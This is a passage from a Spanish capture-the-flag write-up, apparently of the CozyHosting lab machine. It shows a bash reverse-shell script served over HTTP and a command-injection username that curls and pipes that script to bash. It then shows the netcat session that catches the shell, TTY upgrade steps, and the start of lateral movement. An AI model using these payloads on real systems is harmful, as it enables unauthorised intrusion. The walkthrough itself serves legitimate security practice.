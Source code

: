 ```
┌──(polika4r㉿prm)-[~/Escritorio/COZYHOSTING]
└─$ python3 -m http.server 443
Serving HTTP on 0.0.0.0 port 443 (http://0.0.0.0:443/) ...
```

Cuando la máquina víctima (lo simularé conmigo en este caso) haga un curl, verá:
```
┌──(polika4r㉿prm)-[~/Escritorio/COZYHOSTING]
└─$ curl localhost:443
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.3/443 0>&1
```

Voy a ponerme en escucha por el puerto 443 y ejecuto el mismo código pipeándolo con el comando *|bash* para que lo ejecute con una bash:
- Hostname: *localhost*
- Username: *test;curl${IFS}10.10.14.3|bash;#*

Recibo una reverse shell:
Una conexión con el usuario "app":
```
─$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.230] 55036
bash: cannot set terminal process group (1061): Inappropriate ioctl for device
bash: no job control in this shell                      
app@cozyhosting:/app$ whoami  
```

Acondicionamos la terminal con:
- script /dev/null -c bash
- Ctrl + Z
- stty raw -echo; fg
- export TERM=xterm
- export SHELL=bash

Aterrizamos con el usuario *"APP"*, pero en /home se encuentra el usuario "josh".

## Moviemiento lateral para convertirnos a Josh

Nuestra shell devuelta nos había aterrizado en /app, y veo que dicho directorio contiene:
```
app@cozyhosting:/app$ ls
cloudhosting-0.0.1.jar
```

Vamos a descomprimirlo en:
```
app@cozyhosting:/tmp/app$ unzip -d /tmp/app cloudhosting-0.0.1.jar
```


Y observamos estos archivos:
```
app@cozyhosting:/tmp/app$ ls
BOOT-INF  META-INF  org
```
